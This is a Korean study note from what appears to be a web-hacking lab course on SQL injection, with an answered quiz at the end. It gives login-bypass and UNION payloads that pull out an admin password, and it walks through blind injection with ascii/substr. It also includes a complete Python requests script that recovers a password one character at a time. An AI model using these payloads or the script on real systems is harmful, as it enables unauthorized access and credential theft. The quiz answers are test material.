 # SQL Injection  
**SQL Injection** : DBMS에서 사용하는 **쿼리를 임의로 조작**해 데이터베이스의 **정보를 획득**하는 공격  
**인젝션 공격** : **이용자의 입력값**이 **구조**나 **문법적인 데이터**로 **해석**되어 발생하는 취약점  
<img src="1.jpg">  
다음은 SQL Injection 의 예시입니다.  
원래는 맨 위에 있는 것처럼 요청을 보내서 색깔을 지정한다. 
그러나 **올바르지 않은 요청**을 보내서 **의도하지 않은 행위**(공장 가동 종료 등)를 하게 하는 것을 **인젝션** 이라고 한다.  
## SQL Injection  
웹 서비스에서 ID/PW 를 포함해서 **로그인**을 할 때, **게시글**의 제목과 내용을 적고 **게시**를 할 때, **ID/PW 나 제목/내용** 을 **SQL 구문**에 넣습니다.  
<img src="2.jpg"> <img src="3.jpg">  
위의 Figure 2 는 로그인 할 때, 질의하는 SQL 구문에 입력한 id, pw 가 포함된 것을 알 수 있습니다.  
-> 이를 SQL Injection 이라고 합니다.  
반면에 Figure 3 는 SQL Injection 을 통해, id 가 admin 이면, pw를 확인하지 않게 조작을 했습니다.  
## Simple SQL Injection  
<img src="4.jpg"> <img src="5.jpg">  
다음과 같이 데이터베이스 **user_table** 과 **login 하는 실습창**이 있습니다.  
위와 같이 **uid, upw** 에 **guest** 를 적으면, 아래에 있는 **SQL 구문에 들어가는 것**을 볼 수 있습니다.  
현재 admin 으로 로그인하고 싶은데 upw 를 몰라서 할 수 없다.  
그러나, 이를 잘 이용해서 **upw를 확인하는 곳을 주석 처리**하면 **uid 가 admin 인 경우에 로그인** 할 수 있다.  
참고로 주석은 --, #, /**/ 등이 있습니다.  
<img src="6.jpg"> <img src="7.jpg">  
다음과 같이 입력해서 upw 확인하는 곳을 주석 처리하면 로그인이 돱니다.  
여기서 이 실습은 admin의 upw 을 알아내는 실습입니다.  
SQL 에는 **UNION** 이라는 연산자가 있습니다.  
UNION 은 **두 개 이상의 결과 집합을 결합**합니다.  
즉, 앞에는 admin 에 대한 uid 를 조회하는 구문이므로 위에 admin에 대한 upw 를 조회하는 구문을 입력해 UNION 하면 된다.  
<img src="8.jpg"> <img src="9.jpg">  
그래서 공격 쿼리문을 **admin' UNION Select upw from user_table where uid='admin'--** 과 같이 적었다.  
그 결과 SQL 구문이 **Select uid from user_table where uid='admin' UNION Select upw from user_table where uid='admin'--' and upw='12345'** 로 변했고, admin 의 upw 인 **strawberry** 가 나온 것을 알 수 있다.  
## Blind SQL Injection  
<img src="10.jpg"> <img src="11.jpg">   
Blind SQL Injection 는 위에 있는 그림처럼 DBMS 의 **질의 결과**를 이용자가 화면에서 직접 **확인하지 못할 때** **참/거짓 반환 결과**로 **데이터를 획득**하는 공격 기법이다.  

## Blind SQL Injection 예시  
ascii : 입력받은 **문자를 아스키 코드로** 반환하는 함수  
substr : 입력받은 **문자열에서 지정한 위치부터 길이까지의 값**을 가져오는 함수  
```SQL
substr(string, position, length)
substr('ABCD', 1, 1) = 'A'
substr('ABCD', 2, 2) = 'BC'
```
<img src="12.jpg">  
위의 코드가 Blind SQL Injection 공격 쿼리이다.  
2, 3번째 줄을 보면, upw의 첫번째 문자가 r, s 인지 물어본다.  
그리고 6, 7번째 줄을 보면, upw의 두 번째 문자가 s, t 인지 물어본다.  

## Blind SQL Injection 공격 스크립트  
Blind SQL Injection은 한 바이트씩 비교하여 공격하는 방식이기 때문에 많은 시간이 걸린다.  
이 때, 파이썬에서 **requests** 라는 라이브러리를 통해 좀 더 수월하게 할 수 있다.  
<img src="13.jpg"> <img src="14.jpg">  
Figure 5 는 GET 메소드를 이용하는 방식으로 14번째 줄에서 for문을 통해 자동으로 질의를 할 수 있다.  
Figure 6 도 마찬가지인데, POST 메소드를 이용한다.  

## Blind SQL Injection 스트립트 작성  
```python
#!/usr/bin/python3
import requests
import string
# example URL
url = 'http://example.com/login'
params = {
    'uid': '',
    'upw': ''
}
# abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~
tc = string.ascii_letters + string.digits + string.punctuation
# 사용할 SQL Injection 쿼리
query = '''
admin' and ascii(substr(upw,{idx},1))={val}--
'''
password = ''
# 비밀번호 길이는 20자 이하라 가정
for idx in range(0, 20):
    for ch in tc:
        # query를 이용하여 Blind SQL Injection 시도
        params['uid'] = query.format(idx=idx+1, val=ord(ch)).strip("\n")
        c = requests.get(url, params=params)
        print(c.request.url)
        # 응답에 Login success 문자열이 있으면 해당 문자를 password 변수에 저장
        if c.text.find("Login success") != -1:
            password += ch
            break
print(f"Password is {password}")
```
비밀번호를 알아내기 위해 Blind SQL Injection 을 하기 위해 위와 같이 코드를 짤 수 있다.  
먼저 비밀번호는 알파벳과 숫자, 특수 문자로 이뤄진다.  
아스키 범위로 나타내면 32부터 126까지의 모든 문자이다.  
**for idx in range(0, 20):** 를 보면, 20자리 이하의 비밀번호를 찾을건데, **params['uid'] = query.format(idx=idx+1, val=ord(ch)).strip("\n")** 를 통해 query를 계속 바꿔서 Blind SQL Injection 을 한다.  
그래서 로그인에 성공하면, password 를 보여준다.  
# 퀴즈  
```SQL
SELECT * FROM accounts QHERE user_id='admin' and user_pw='(A)'
```
1. 다음 SQL Query의 (A) 부분에 입력 값을 넣을 수 있다고 할 때, id가 admin 계정으로 로그인이 가능한 SQL Injection 페이로드를 모두 고르시오.  
답 : **' or 1=1-- 1**, **'+(select user_pw from accounts where user_id='admin')+'**  
2. 실습 모듈에서 획득한 admin의 비밀번호는 (A) 입니다. (A)에 들어갈 말로 올바른 것은?   
답 : strawberry  
3. 다음 중 일반적인 상황에서 SQL Injection으로 할 수 없는 행위를 고르시오. (MySQL 기준)  
답 : 내부망 침투하기  
